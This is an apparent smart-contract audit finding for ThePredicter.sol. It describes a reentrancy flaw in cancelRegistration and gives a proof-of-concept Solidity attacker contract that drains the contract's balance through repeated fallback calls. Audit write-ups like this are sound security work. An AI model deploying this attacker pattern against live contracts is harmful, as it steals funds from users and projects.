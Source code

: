 Relevent link- <https://github.com/Cyfrin/2024-07-the-predicter/blob/main/src/ThePredicter.sol>

Any user is able to register in `ThePredicter::register` and therefore would be able to call the `cancelRegistration` function to receive their refund. Due to an external call being made before updating the player's status, this function is vulnerable to a reentrancy attack. The user would be able to create an external contract that calls `cancelRegistration` every time it receive ether in a fallback function. The process can repeat until the contract balance is below the entrance fee.

```Solidity
function cancelRegistration() public {
        if (playersStatus[msg.sender] == Status.Pending) {
            //@audit-data function does not follow CEI pattern and can be called in a loop until contract balance is empty
@>          (bool success, ) = msg.sender.call{value: entranceFee}("");
            require(success, "Failed to withdraw");
            playersStatus[msg.sender] = Status.Canceled;
            return;
        }
        revert ThePredicter__NotEligibleForWithdraw();
    }
```

## POC

Create the following contract

```Solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {ThePredicter} from "../src/ThePredicter.sol";
import {ScoreBoard} from "../src/ScoreBoard.sol";

contract ReentrancyAttacker {
    ThePredicter thePredicter;
    uint256 entranceFee;

    constructor(address _thePredicter) {
        thePredicter = ThePredicter(_thePredicter);
        entranceFee = thePredicter.entranceFee();
    }

    function attack() external payable {
        thePredicter.register{value: entranceFee}();
        thePredicter.cancelRegistration();
    }

    fallback() external payable {
        if (address(thePredicter).balance >= entranceFee) {
            thePredicter.cancelRegistration();
        }
    }
}
```
